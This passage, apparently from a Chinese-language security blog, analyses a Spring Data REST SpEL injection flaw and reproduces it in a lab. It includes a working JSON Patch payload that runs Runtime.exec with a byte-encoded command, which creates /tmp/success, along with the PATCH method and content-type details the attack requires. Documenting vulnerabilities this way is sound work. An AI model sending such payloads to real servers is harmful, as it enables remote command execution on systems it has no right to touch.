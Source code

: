 调用父类PatchOperation的evaluateValueFromTarget方法：

```java
//源代码k
protected <T> Object evaluateValueFromTarget(Object targetObject, Class<T> entityType) {    return value instanceof LateObjectEvaluator
            ? ((LateObjectEvaluator) value).evaluate(spelExpression.getValueType(targetObject)) : value;
}
```

回过头看代码源代码j，setValueOnTarget再往后走就是SpEL解析了。

## 4.&emsp;漏洞复现

1. 通过网上公布的靶场源码搭建Spring Data Rest环境：

![Spring Data Rest]({{ '/styles/images/Spring Data Rest/1.png' | prepend: site.baseurl  }})

2. 访问环境url并通过burpsuite进行抓包：

![Spring Data Rest]({{ '/styles/images/Spring Data Rest/2.png' | prepend: site.baseurl  }})

3. 转发数据包，先通过POST方式提交数据：

![Spring Data Rest]({{ '/styles/images/Spring Data Rest/3.png' | prepend: site.baseurl  }})

4. 访问网页，可以看到数据被成功提交进去

![Spring Data Rest]({{ '/styles/images/Spring Data Rest/4.png' | prepend: site.baseurl  }})

5. 构造恶意payload，执行远程命令执行操作：

payload：

```java
[{"op":"test","path":"T(java.lang.Runtime).getRuntime().exec(new java.lang.String(new byte[]{47,117,115,114,47,98,105,110,47,116,111,117,99,104,32,47,116,109,112,47,115,117,99,99,101,115,115}))"
}]
```

![Spring Data Rest]({{ '/styles/images/Spring Data Rest/5.png' | prepend: site.baseurl  }})

**注：**

* 数据包转发需要换成PATCH方法
* URL换成刚刚提交的url
* Content-Type需要换成`Content-Type: application/json-patch+json`

6. 查看靶机中命令有没有执行：

![Spring Data Rest]({{ '/styles/images/Spring Data Rest/7.png' | prepend: site.baseurl  }})

可以看到文件被成功写入。

## 5.&emsp;修复意见
